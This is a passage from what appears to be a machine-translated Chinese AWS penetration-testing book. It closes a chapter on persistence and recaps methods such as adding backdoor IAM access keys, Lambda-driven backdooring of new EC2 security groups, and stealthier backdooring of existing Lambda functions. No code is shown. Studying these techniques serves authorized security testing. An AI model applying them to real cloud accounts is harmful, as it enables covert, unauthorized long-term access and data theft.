`lambda__backdoor_new_sec_groups`模块使用 EC2 API（而非 IAM），因此无需在`us-east-1`中创建 Lambda 函数；相反，它应该被发布到您希望借壳新安全组的区域。

# 总结

在本章中，我们介绍了如何建立对目标 AWS 环境的持久访问方法。这可以直接完成，正如我们向其他 IAM 用户添加后门键所示，或者我们可以对 AWS Lambda 和 CloudWatch Events 等服务使用更长期的方法。有许多不同的方法可以在目标 AWS 帐户中建立某种持久性，但有时只需要对目标进行一点研究，就可以确定哪里可能是一个好位置。

Lambda 提供了一个非常灵活的平台，可用于对目标客户内的事件做出反应和响应，这意味着我们可以在创建资源时建立持久性（或更多）；然而，正如我们通过后门 EC2 安全组所展示的那样，并非每个后门都需要基于 IAM 服务/在 IAM 服务内，有时也可以作为备用访问类型的后门。本章旨在展示一些常见的持久性方法，以帮助您在约会中发现其他持久性方法。

与其在帐户中创建新资源（这可能会引起注意的人的注意），还可以对现有的 Lambda 函数进行后门操作。这些攻击对您所针对的环境更为具体，需要一组不同的权限，但可能更隐蔽，持续时间更长。这些方法将在下一章中讨论，我们将讨论 pentesting AWS Lambda、调查现有 Lambda 函数的后门和数据过滤等。